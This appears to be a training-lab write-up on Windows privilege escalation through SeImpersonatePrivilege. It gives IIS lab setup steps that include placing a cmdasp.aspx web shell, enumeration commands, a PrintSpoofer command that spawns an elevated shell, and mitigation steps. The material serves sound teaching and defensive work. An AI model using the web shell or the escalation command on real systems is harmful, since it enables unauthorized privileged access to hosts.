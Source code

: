 # SeImpersonatePrivilege

## Table of Contents

- [SeImpersonatePrivilege](#SeImpersonatePrivilege)
  - [Table of Contents](#table-of-contents)
  - [Description](#description)
  - [Lab Setup](#lab-setup)
    - [Manual Lab Setup](#manual-lab-setup)
    - [PowerShell Script Lab Setup](#powershell-script-lab-setup)
  - [Enumeration](#enumeration)
    - [Manual Enumeration](#manual-enumeration)
    - [Tool Enumeration](#tool-enumeration)
  - [Exploitation](#exploitation)
  - [Mitigation](#mitigation)
  - [References](#references)

## Description

The SeImpersonatePrivilege is a Windows privilege that grants a user or process the ability to impersonate the security context of another user or account. This privilege allows a process to assume the identity of a different user, enabling it to perform actions or access resources as if it were that user.

However, if not properly managed or granted to unauthorized users or processes, the SeImpersonatePrivilege can pose a significant security risk. The SeImpersonatePrivilege vulnerability can be exploited by malicious actors to conduct various attacks and gain unauthorized access on a system.

## Lab Setup

### Manual Lab Setup

:warning: <b>For this scenario, it is recommended to use Windows Server 2019 (Build 17763) rather than Windows 10/11.</b>

1) Authenticate to the server as the local Administrator.

2) Open the "Server Manager" and select the option named "Add roles and features":

![SeImpersonatePrivilege-Labsetup-Manual-1](/Pictures/SeImpersonatePrivilege-Labsetup-Manual-1.png)

3) Press the "Next" button until you reach the "Server Roles" section:

![SeImpersonatePrivilege-Labsetup-Manual-2](/Pictures/SeImpersonatePrivilege-Labsetup-Manual-2.png)

4) Add the role named "Web Server (IIS)" and then press the button named "Add Features":

![SeImpersonatePrivilege-Labsetup-Manual-3](/Pictures/SeImpersonatePrivilege-Labsetup-Manual-3.png)

5) Press "Next", and in section named "Features" add the followings:
   - ASP.NET 4.7
   - WCF Services (1 of 5 installed)
     - HTTP Activation
    
Outcome:

![SeImpersonatePrivilege-Labsetup-Manual-4](/Pictures/SeImpersonatePrivilege-Labsetup-Manual-4.png)

6) Press "Next" until you reach the "Confirmation" section. In this section, check the checkbox for "Automatically restart":

![SeImpersonatePrivilege-Labsetup-Manual-5](/Pictures/SeImpersonatePrivilege-Labsetup-Manual-5.png)

7) Finally, press the "Install" button.

![SeImpersonatePrivilege-Labsetup-Manual-6](/Pictures/SeImpersonatePrivilege-Labsetup-Manual-6.png)

8) Verify that the IIS Web site is working:

![SeImpersonatePrivilege-Labsetup-Manual-7](/Pictures/SeImpersonatePrivilege-Labsetup-Manual-7.png)

9) Delete all files from "C:\inetpub\wwwroot" and add the [index.html](/Lab-Setup-Source-Code/index.html) and [cmdasp.aspx](/Lab-Setup-Source-Code/cmdasp.aspx):

![SeImpersonatePrivilege-Labsetup-Manual-8](/Pictures/SeImpersonatePrivilege-Labsetup-Manual-8.png)

### PowerShell Script Lab Setup

:warning: <b>For this scenario, it is recommended to use Windows Server 2019 (Build 17763) rather than Windows 10/11.</b>

To set up the lab with the 'SeImpersonatePrivilege' vulnerability is by using the custom PowerShell script named [SeImpersonatePrivilege.ps1](/Lab-Setup-Scripts/SeImpersonatePrivilege.ps1).

1) Authenticate to the server as the local Administrator.

2) Open a PowerShelll and run the script:

```
.\SeImpersonatePrivilege.ps1
```

Outcome:

![SeImpersonatePrivilege-Labsetup-Script](/Pictures/SeImpersonatePrivilege-Labsetup-Script.png)

## Enumeration

### Manual Enumeration

After initial access via Web application as `iis apppool\defaultapppool` user, to perform manual enumeration, you can use the following command to enumerate the current privileges of the user:

```
whoami /priv
```

Outcome:

![SeImpersonatePrivilege-Manual-Enum](/Pictures/SeImpersonatePrivilege-Manual-Enum.png)

### Tool Enumeration

To run the SharpUp tool and perform an enumeration of the `SeImpersonatePrivilege` vulnerability, you can execute the following command with appropriate arguments:

```
SharpUp.exe audit TokenPrivileges
```

Outcome:

![SeImpersonatePrivilege-Tool-Enum](/Pictures/SeImpersonatePrivilege-Tool-Enum1.png)

## Exploitation

To abuse this vulnerability you should use the [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) tool:

```
PrintSpoofer64.exe -i -c cmd
```

Outcome:

![SeImpersonatePrivilege-Exploitation](/Pictures/SeImpersonatePrivilege-Exploitation.png)

## Mitigation

Follow the steps below to remove the SeImpersonatePrivilege from a user:

1) Press Win + R to open the Run dialog, type secpol.msc, and hit Enter. This will open the Local Security Policy editor.
  
2) In the Local Security Policy editor, navigate to Local Policies > User Rights Assignment.

3) Look for the Impersonate a client after authentication policy (which corresponds to SeImpersonatePrivilege).

4) Double-click the policy, and a properties window will appear.

5) In the properties window, you can remove the user or group from the list to revoke the privilege. Click Apply and then OK to save the changes.

## References

- [Special privileges assigned to new logon Microsoft](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4672)
- [Windows Potatoes by jlajara](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)
- [LocalPotato by decoder-it](https://github.com/decoder-it/LocalPotato)
- [decoder-it blog](https://decoder.cloud)
